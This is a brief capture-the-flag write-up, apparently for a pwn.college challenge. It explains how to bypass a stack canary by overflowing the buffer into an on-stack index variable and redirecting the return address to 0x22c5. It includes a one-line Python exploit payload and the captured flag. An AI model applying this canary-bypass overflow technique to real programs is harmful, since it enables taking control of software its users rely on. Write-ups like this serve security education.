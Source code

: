 In this challenge the canary is enabled which means we cannot simply overflow the input buffer to overwrite the return address
Luckily there is a vulnerability in the program

The program reads from stdin one character at a time and then puts it on the stack at address *input_buffer + n where n is the number of characters that has been entered. 
So if we overflow the buffer and change the value of n to some address beyond the canary we can easily take control of the entire stack


The variable is at offset 80 0x50

The return address is at offset 104

We have to jummp to 0x22c5

    python -c 'import sys, time; sys.stdout.buffer.write(b"106"); time.sleep(1); sys.stdout.buffer.write(b"A"*81 + b"\x67" + b"\xc5\x22")' 

    pwn.college{Qeqj4cpszUdaVst19Yw4ZUuvc3X.0lNwMDL5kzM1czW}

